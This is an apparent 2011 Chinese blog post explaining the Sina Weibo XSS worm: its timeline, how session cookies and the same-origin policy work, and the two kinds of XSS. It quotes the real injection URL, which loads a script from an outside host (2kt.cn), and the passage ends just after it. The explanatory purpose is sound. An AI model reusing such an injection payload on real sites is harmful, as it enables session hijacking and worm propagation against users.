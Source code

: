 ```yaml
---
title: 110629 关于XSS攻击
layout: post
permalink: /2176.html
categories:
  - Code
---
```

6月28日20时14分左右开始，新浪微博出现了一次比较大的XSS攻击事件。大量用户自动发送诸如：“郭美美事件的一些未注意到的细节”，“建 党大业中穿帮的地方”，“让女人心动的100句诗歌”，“3D肉团团高清普通话版种子”，“这是传说中的神仙眷侣啊”，“惊爆!范冰冰艳照真流出了”等等 微博消息和私信，并自动关注一位名为hellosamy的用户。 事件的经过线索如下： 20:14，开始有大量带V的认证用户中招转发蠕虫 20:30，2kt.cn中的病毒页面无法访问 20:32，新浪微博中hellosamy用户无法访问 21:02，新浪漏洞修补完毕 新浪微博XSS事件 在这里，想和大家介绍一下XSS攻击，XSS攻击又叫跨站脚本式攻击，你Google一下可以搜到很多很多的文章。我在这里就简单地说一下。 首先，我们都知道网上很多网站都可以“记住你的用户名和密码”或是“自动登录”，其实是在你的本地设置了一个cookie，这种方式可以让你免去每次都输入用户名和口令的痛苦，但是也带来很大的问题。试想，如果某用户在“自动登录”的状态下，如果你 运行了一个程序，这个程序访问“自动登录”这个网站上一些链接、提交一些表单，那么，也就意味着这些程序不需要输入用户名和口令的手动交互就可以和服务器 上的程序通话。这就是XSS攻击的最基本思路。 再说一点，不一定是“记住你的用户名和密码”或是“自动登录”的方法，因为HTTP是无状态 的协 议，所以，几乎所有的网站都会在你的浏览器上设置cookie来记录状态，以便在其多个网页中检查你的登录状态。而现在的浏览器的运行方式是多页面或多窗 口运行，也就是说，你在同一个父进程下开的多个页面或窗口里都可以无偿使用你登录状态的。 当然，你不必过于担心访问别的网站，在别的网站里的js代码会访问你的微博或是网银的登录页面。因为浏览器的安全性让js只能访问自己所在网站的资源。当然，这是浏览器做的检查，所以，浏览器并不一定会做这个检查，这就是为什么IE6是史上最不安全的浏览器，没有之一。只要你不在用IE6，应该没有这些问题。 XSS攻击有两种方法， 一种就像SQL Injection或CMD Injection攻击一样，我把一段脚本注入到服务器上，用户访问方法服务器的某个URL，这个URL就会把远端的js注入进来，这个js有可能自动进 行很多操作。比如这次事件中的帮你发微博，帮你发站内消息等。注入有很多方法，比如：提交表单，更改URL参数，上传图片，设置签名，等等。 另一类则是来来自外部的攻击，主要指的自己构造XSS 跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个跨站网页放在自己的服务器上，然后通过结合其它技术，如 社会工程学等，欺骗目标服务器的管理员打开。这一类攻击的威胁相对较低，至少ajax 要发起跨站调用是非常困难的（你可能需要hack浏览器）。 这次新浪微博事件是第一种，其利用了微博广场页面 http://weibo.com/pub/star 的一个URL注入了js脚本，其通过http://163.fm/PxZHoxn 短链接服务，将链接指向： 代码: http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update 注意，上面URL链接中的其实就是 代码: